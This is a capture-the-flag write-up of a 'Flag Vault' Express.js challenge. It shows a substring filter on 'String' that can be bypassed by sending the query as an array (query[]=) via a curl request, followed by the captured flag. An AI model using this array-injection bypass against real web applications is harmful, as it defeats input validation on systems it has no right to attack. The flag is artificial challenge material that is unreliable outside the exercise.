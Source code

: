 A simple Express.js app serves a “Flag Vault” page where users submit a key via a POST `/search`. If the key matches a hardcoded `key` string, a flag is revealed. However, there's a rudimentary filter that blocks any input containing the substring `"String"`.

Rough code flow:

```js
const key = "randomBytes(16).toString('hex')";
const query = req.body.query;

if (query.includes("String")) {
  return res.send("❌ Access Denied");
}
if (query.includes(key)) {
  return res.send("✅ Key matched: … Here is your flag");
}
```

- The bodyParser.urlencoded({ extended: true }) setting allows for arrays in the form input (query[]=), not just strings.
- That means if req.body.query is an array, it won't be blocked unless there's an element equal to "String".

```bash
curl -X POST \
  --data-urlencode "query[]=randomBytes(16).toString('hex')" \
  http://<IP>:<PORT>/search
prelim{i_was_confused_ab_what_to_make--so_i_made_a_js_type_confusion_baby_challenge_ehhe}
```
